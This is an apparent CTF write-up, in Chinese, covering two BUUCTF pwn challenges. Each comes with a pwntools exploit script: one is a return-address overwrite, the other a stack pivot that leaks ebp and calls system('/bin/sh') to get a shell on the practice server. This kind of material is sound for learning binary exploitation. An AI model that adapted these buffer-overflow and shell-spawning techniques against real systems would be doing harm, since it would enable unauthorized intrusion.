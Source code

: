 ## 25 jatviso_tell_me_something

这道题有一点小坑,一般都是将`ebp`压入栈，然后将`esp`的值赋值给`ebp`，然后`esp`减去对应的栈空间的大小

```assembly
push	ebp
mov		ebp, esp
sub		esp, 18h
```

但是这道题直接将`rsp`减去0x88，这里并没有把`rbp`压入栈，所以只需要0x88大小就可以覆盖返回地址了

```python
from pwn import *

from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28402)
def dbg():
    gdb.attach(p)
    pause()

payload = b'a'*0x88+p64(0x400620)
p.recvuntil(':')
p.sendline(payload)
p.interactive()
```

## 26 ciscn_2019_es_2

发现溢出只有八字节，需要栈迁移

我觉得这位师傅讲的不错，[ciscn_2019_es_2](https://bbs.kanxue.com/thread-269163.htm)

```python
from pwn import * 
context.terminal = ['terminator','-x','sh','-c']
context.log_level='debug'
p=remote('node5.buuoj.cn',25052)
#p=process("./pwn")
elf = ELF('./pwn')
sys_addr=elf.sym['system']
leave_ret=0x080484b8
p.recvuntil("name?\n")
payload1= 0x20*"a"+"b"*0x8
p.send(payload1)
p.recvuntil("b"*0x8)
ebp_addr=u32(p.recv(4))

log.info('ebp:'+hex(ebp_addr))

payload2 = (b"aaaa"+p32(sys_addr)+b'aaaa'+p32(ebp_addr-0x28)+b'/bin/sh').ljust(0x28,b'\x00')+p32(ebp_addr-0x38) + p32(leave_ret)
p.send(payload2)
p.interactive()
```
